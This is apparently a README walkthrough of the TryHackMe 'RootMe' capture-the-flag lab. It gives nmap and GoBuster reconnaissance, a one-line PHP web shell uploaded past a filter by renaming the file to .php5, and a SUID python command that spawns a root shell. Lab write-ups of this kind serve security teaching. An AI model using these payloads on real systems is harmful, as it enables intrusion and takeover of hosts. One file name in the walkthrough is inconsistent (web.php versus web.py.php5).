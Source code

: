 # Detailed Setup and Execution Guide

![RootMe](rootme.png)

Welcome to our project! This README is designed to guide you through the entire process of setting up and executing the project, from deployment to privilege escalation. We aim to provide clear, step-by-step instructions that are easy to follow. Let's dive into the details.

## Table of Contents

1. [Deploy The Machine](#deploy-the-machine)
2. [Reconnaissance](#reconnaissance)
3. [Getting A Shell](#getting-a-shell)
4. [Privilege Escalation](#privilege-escalation)

### Deploy The Machine

#### Step 1: Connect to TryHackMe Network

Before deploying the machine, ensure you are connected to the TryHackMe network. If you are unfamiliar with this process, we recommend completing the OpenVPN room on TryHackMe to understand how to establish this connection properly.

### Reconnaissance

#### Step 2: Gather Information About the Target

To begin, we need to collect some crucial information about our target machine.

1. **Scan the Machine**: Use the following `nmap` command to scan the machine. This command helps identify open ports and the services running on them.
   
   ```bash
   nmap -sC -sV -Pn <IP>
   ```
   
   Replace `<IP>` with the target machine's IP address. The expected outcome is to find that 2 ports are open.

2. **Identify Apache Version**: Through the scan, you should be able to determine that Apache version 2.4.29 is running on the target machine.

3. **Discover Services**: The service running on port 22 is SSH (Secure Shell).

4. **Directory Enumeration**: Use the GoBuster tool to find directories on the web server. This step does not require an explicit answer but involves running GoBuster with the following command:

   ```bash
   gobuster dir -u <IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,php,html,css,txt -o output
   ```

   The hidden directory you should discover is `/panel/`.

### Getting A Shell

#### Step 3: Upload and Execute a Reverse Shell

The goal here is to find a form to upload a reverse shell script and subsequently find a flag.

1. **Upload Reverse Shell**: Find a form on the website where you can upload files. Use the following PHP script named `web.php` (you may need to adjust the file extension as needed):

   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. **Modify and Upload File**: Using Burp Suite as a proxy, intercept the file upload request and add `.php5` to the end of the filename before forwarding it.

3. **Execute Command**: Access the uploaded file via a browser and execute a command to find `user.txt`. The URL should look something like this:

   ```plaintext
   http://<IP>/uploads/web.py.php5?cmd=find%20/%20-type%20f%20-name%20user.txt
   ```

Replace `<IP>` with the target's IP address.

### Privilege Escalation

#### Step 4: Escalate Privileges to Root

After gaining a shell, the next step is to escalate privileges to root.

1. **Find SUID Files**: Look for files with SUID permission that appear unusual using the following command:

   ```bash
   find / -user root -perm /4000
   ```

   You might find that `/usr/bin/python` has SUID permissions, which is unusual.

2. **Privilege Escalation**: Leverage GTFOBins to find a method to escalate your privileges. Execute the following command to gain root access:

   ```bash
   /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
   ```

Now, you should have escalated your privileges to root and be able to access `root.txt`.
